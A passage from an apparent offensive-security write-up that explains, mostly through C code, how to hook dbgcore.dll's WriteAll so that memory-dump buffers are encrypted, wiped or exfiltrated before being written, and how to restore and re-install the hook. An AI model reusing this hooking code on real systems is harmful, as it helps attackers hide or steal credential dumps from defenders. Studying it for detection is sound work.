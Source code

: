 ```c
 const char* dbgcore_name = "dbgcore.dll";
 intptr_t dbgcore_handle = (intptr_t)LoadLibraryA(dbgcore_name);

 intptr_t writeAll_offset = 0xb4b0;
 writeAll_abs = dbgcore_handle + writeAll_offset;

 void* _hoot_trampoline_address = (void*)_hoot_trampoline;
 memcpy(&trampoline_assembly[2], &_hoot_trampoline_address, sizeof(_hoot_trampoline_address));
```


# Jumping into the trampoline

As stated before, the `_trampoline` should implement the following logic:
    
    - Perform the required buffer operations (such as encryption or exfiltration)
    - Restore the original overwritten bytes from `WriteAll`.
    - Call the original `WriteAll` function with the modified buffer.
    - Write the hook again in the `WriteAll` function. 


```c
UINT32 _hoot_trampoline(HANDLE file_handler, void* buffer, INT64 size) {
    
    // The position calculation lines will make sense in the Prowlblems section ^o^
    long high_dword = NULL;
    DWORD low_dword = SetFilePointer(our_dmp_handle, NULL, &high_dword, FILE_CURRENT);
    long pos = high_dword << 32 | low_dword;

    unsigned char *new_buff = hoot(buffer, size, pos);  // Perform buffer operations: Encrypt, nuke, send it...

    // Overwrite the WriteAll initial bytes to perform a direct jmp to our _trampoline_function
    WriteProcessMemory(hProcess,
         (LPVOID*)writeAll_abs,
         &overwritten_writeAll,
         sizeof(overwritten_writeAll),
         NULL
    );      // Restore original bytes

    /* Call the WriteAll absolute address (cast it to a function that
    returns an UINT32 and 
    receives a HANDLE, a pointer to a buffer and an INT64)
    */
    UINT32 ret = ( (UINT32(*)(HANDLE, void*, INT64) ) (writeAll_abs) ) (file_handler, (void*)new_buff, size);      // erg...
    
    // Rewrite the hook at the beginning of the WriteAll
    WriteProcessMemory(hProcess, (LPVOID*)writeAll_abs, &trampoline_assembly, sizeof(trampoline_assembly), NULL);

    return ret;
}
```
